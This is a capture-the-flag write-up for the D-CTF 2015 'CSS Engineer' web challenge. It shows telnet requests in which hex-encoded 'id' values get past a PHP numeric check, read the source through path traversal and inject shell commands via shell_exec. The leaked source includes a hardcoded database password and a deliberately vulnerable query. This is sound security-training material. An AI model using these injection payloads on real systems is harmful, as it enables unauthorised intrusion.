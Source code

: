 ## D-CTF 2015 - CSS Engineer (Web 400)
##### 02/10 - 04/10/2015 (36hr)
___

### Description:  
http://10.13.37.5
___

We start by playing around with id and usr parameters. If we look at the source code we will see
a php file being the source of an image. Hmmmm how this code could be? the php should have something
like this:
```
    <?php
        header('Content-Type: image/jpeg');
        readfile('some_image.jpg');
    ?>
```

Let's use telnet to inspect what's going on:
```
root@vasilikoula:~/ctf/dctf# telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    GET /?id=3&usr=1   

    cat: images/3_6.jpg: No such file or directory
    Connection closed by foreign host.
```
id=3 and usr=1 is trying to open image 3_6.jpg. After a while we find the pattern:
id is the first part of the file name. Then an underscore follows and finally a number
which depends on usr:
```
    switch( usr )
    {
    	case 1: name .= "6.jpg"
    	case 2: name .= "267.jpg"
    	case 3: name .= "269.jpg"
    	case 4: name .= "271.jpg"
    }
```
We can't do much with usr, so we should focus on id. Lets start "fuzzing" it: 
```
    (echo -e "GET /?id=999999999999999&usr=1 HTTP/1.0\n\n"; sleep 0.5) | telnet 10.13.37.5 80
```
The above command returns the error:
    images/999999999999999_6.jpg: No such file or directory

Id parameter is "reflected". However id must be numeric. If we supply an non-numeric value, we'll
get the error "ID or User ID must be numeric". However if we supply hex literals we'll some 
interesting things:
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x3336&usr=1 HTTP/1.0\n\n"; sleep 0.5) 
                            | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 03:57:13 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 48
    Connection: close
    Content-Type: image/jpeg

    cat: images/36_6.jpg: No such file or directory
    Connection closed by foreign host.
```
Ok, got the point. Let's read index.php: "../index.php" -> 0x2e2e2f696e6465782e70687000
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x2e2e2f696e6465782e70687000&usr=1 HTTP/1.0\n\n"; sleep 0.5) 
                            | telnet 10.13.37.5 80
Trying 10.13.37.5...
Connected to 10.13.37.5.
Escape character is '^]'.
HTTP/1.1 200 OK
Date: Sun, 04 Oct 2015 03:58:19 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.13
Connection: close
Content-Type: image/jpeg
WmzWZmPH7PZJtxOyff[..... TRUNCATED FOR BREVITY .....]Ugo5KtCkuSv8AAF
```
```
<?php

// ini_set('display_errors',1);
// error_reporting(E_ALL);

mysql_connect('localhost','w400', 'lajsflkjaslfjasklfj10412497128') or die('neah');
mysql_select_db('w400');

if(isset($_GET['id'], $_GET['usr'])) {

    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,/9j/4AAQSkZJRgABA[..... TRUNCATED FOR BREVITY .....]1zPsUtJJokWJn/2Q==">');
    }

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
cNYXndfWopzZp0Hwl[..... TRUNCATED FOR BREVITY .....]JEnxqUZ8rXH9thbbeetl5
Connection closed by foreign host.
```

We have the code now. The interesting part is the following lines:
```
    q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    echo shell_exec("cat images/$path 2>&1");
```

If we supply and id with spaces the result will be the following:
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x61206220632064&usr=2 HTTP/1.0\n\n"; sleep 0.5) 
                | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 04:13:33 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 151
    Connection: close
    Content-Type: image/jpeg

    cat: images/a: No such file or directory
    cat: b: No such file or directory
    cat: c: No such file or directory
    cat: d_267.jpg: No such file or directory
    Connection closed by foreign host.
```
The multiple files is a consequence of cat command. Now we can manipulate $path which means that 
we can execute arbitrary commands :)

Let's execute an ls: "foo; ls -la"
```
root@vasilikoula:~/ctf/dctf# (echo -e "GET /?id=0x666f6f3b206c73202d6c6100&usr=2 HTTP/1.0\n\n"; 
                        sleep 0.5) | telnet 10.13.37.5 80
    Trying 10.13.37.5...
    Connected to 10.13.37.5.
    Escape character is '^]'.
    HTTP/1.1 200 OK
    Date: Sun, 04 Oct 2015 04:16:22 GMT
    Server: Apache/2.4.7 (Ubuntu)
    X-Powered-By: PHP/5.5.9-1ubuntu4.13
    Content-Length: 330
    Connection: close
    Content-Type: image/jpeg

    total 44
    drwxr-xr-x 3 root root  4096 Oct  3 16:15 .
    drwxr-xr-x 3 root root  4096 Oct  1 22:08 ..
    -rw-r--r-- 1 root root    17 Oct  1 22:20 .htaccess
    -rw-r--r-- 1 root root    38 Oct  1 22:14 6e8218531e0580b6754b3e3be5252873.txt
    drwxrwxr-x 2 root root  4096 Oct  1 22:14 images
    -rw-r--r-- 1 root root 21392 Oct  1 22:17 index.php
    Connection closed by foreign host.
```
All we have to do is to access that strange file:

http://10.13.37.5/6e8218531e0580b6754b3e3be5252873.txt


**DCTF{19b1f9f19688da85ec52a735c8da0dd3}**
___